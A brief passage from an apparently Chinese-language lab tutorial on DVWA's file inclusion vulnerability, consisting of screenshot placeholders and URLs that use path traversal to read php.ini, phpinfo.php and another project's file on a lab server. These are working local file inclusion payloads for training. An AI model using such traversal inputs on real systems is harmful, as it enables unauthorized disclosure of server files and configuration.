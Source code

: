 ![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/1cd8566b91dbabc0939ecf851deeff53.png)
接下来换成读取php.ini :http://192.168.20.48/DVWA/vulnerabilities/fi/?page=../../php.ini
![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/e6f6465ddd8475243b97174a811c45ef.png)
phpinfo.php：http://192.168.20.48/DVWA/vulnerabilities/fi/?page=../../phpinfo.php
![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/4255bea2c1667b3ef2a8c08d668c42ae.png)
直接路径包含其他项目的文件：http://192.168.20.48/DVWA/vulnerabilities/fi/?page=D:\green\wamp\www\helloworld\if.php